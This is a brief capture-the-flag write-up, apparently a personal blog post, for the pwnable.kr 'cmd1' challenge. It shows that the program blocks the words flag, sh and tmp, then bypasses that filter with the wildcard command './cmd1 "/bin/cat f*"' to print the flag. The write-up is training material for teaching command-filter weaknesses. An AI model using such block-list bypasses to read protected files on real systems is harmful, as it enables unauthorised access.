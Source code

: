 ```yaml
---
layout:     post
title:      pwnable cmd1
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>http://pwnable.kr/  
>  
>Problem Description:  
>Mommy! what is PATH environment in Linux?  
>Address:  
>ssh cmd1@pwnable.kr -p2222 (pw:guest)  
<!-- more -->


### 0x00 exploit

查看源码, flag、sh、tmp 被过滤了

![](/assets/img/writeup/pwn/2017-08-27-pwnable-cmd1/0x00.png)

利用通配符绕过, getflag~

```
$ ./cmd1 "/bin/cat f*"
mommy now I get what PATH environment is for :)
```

![](/assets/img/writeup/pwn/2017-08-27-pwnable-cmd1/0x01.png)
